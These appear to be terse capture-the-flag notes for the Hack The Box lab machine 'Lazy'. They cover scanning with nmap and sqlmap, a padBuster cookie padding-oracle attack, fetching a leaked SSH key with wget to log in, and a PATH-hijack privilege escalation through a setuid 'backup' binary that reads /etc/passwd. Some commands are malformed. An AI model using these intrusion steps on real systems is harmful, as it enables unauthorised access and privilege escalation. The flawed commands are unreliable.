

# Lazy

``` 
nmap -sC -sV -oA nmap/lazy 10.10.10.

sqlmap -r login.req --level 4 --risk 3
```

* padbuster
``` 
perl padBuster.pl http://10.10.10.18/index.php <cookie> 8 -cookies auth=<cookie> 

wget http://10.10.10.18/mysshkeywithnamemitsos
mv  mysshkeywithnamemitsos mitsos.key
chmod 600 mitsos.key
ssh -i mitsos.key mitsos@10.10.10.18
# > ./backup 
# > gdb backup
# > b main 
> vi cat 
> > #!/bin/sh
> > echo "echo hello world"
> chmod -X cat
> export PATH="pwd":$PATH
> echo $PATH
> cat /etc/passwd 
> ./backup
```


